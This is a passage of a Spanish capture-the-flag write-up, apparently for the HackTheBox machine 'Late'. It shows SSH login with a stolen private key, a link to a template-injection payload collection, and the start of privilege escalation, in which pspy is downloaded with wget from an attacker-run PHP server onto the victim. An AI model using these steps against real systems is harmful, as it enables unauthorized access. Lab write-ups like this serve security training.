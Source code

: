 > Gran Repositorio de **Template Inyections**: [https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2)
{: .prompt-tip}

Ahora guardamos la llave en un archivo llamado `id_rsa`, le damos permisos de una llave privada `chmod 600` y pa-dentro:

```console
❯ chmod 600 id_rsa
❯ ssh -i id_rsa svc_acc@10.10.11.156
No mail.
svc_acc@late:~$ find / -name user.txt 2>/dev/null | xargs ls -l
-rw-r----- 1 root svc_acc 33 May 10 04:20 /home/svc_acc/user.txt
```

## Privilege Escalation

* * *

Después de una enumeración básica no logramos encontrar algo interesante. Pero nos dimos cuenta al entrar por **SSH** el mensaje _No mail_, además en la enumeración encontramos archivos `.bak `(backups), pero no logramos obtener credenciales. 

Ahora procedemos a listar **cron jobs** y comandos que executan los usuarios del sistema, para ello usamos la herramienta `pspy`:

> Descargamos la herramienta en su repositorio: [https://github.com/DominicBreuker/pspy](https://github.com/DominicBreuker/pspy)
{: .prompt-info}

> En nuestra máquina montamos un servicio web con `php`:

```console
❯ ls
 pspy64
❯ php -S 0.0.0.0:1234
[Tue May 10 20:28:33 2022] PHP 8.1.2 Development Server (http://0.0.0.0:1234) started
```

> En la máquina víctima descargamos el archivo `pspy64` en una carpeta con acceso:

```console
svc_acc@late:~$ cd /tmp/
svc_acc@late:/tmp$ mkdir privesc
svc_acc@late:/tmp$ cd !$
cd privesc
svc_acc@late:/tmp/privesc$ wget http://10.10.14.181:1234/pspy64
--2022-05-11 01:33:35--  http://10.10.14.181:1234/pspy64
Connecting to 10.10.14.181:1234... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M)
Saving to: ‘pspy64’

pspy64                            100%[============================================================>]   2.94M  1.58MB/s    in 1.9s    

2022-05-11 01:33:37 (1.58 MB/s) - ‘pspy64’ saved [3078592/3078592]
```
Por último le damos permisos de ejecución, lo ejecutamos y encontramos algo interesante:
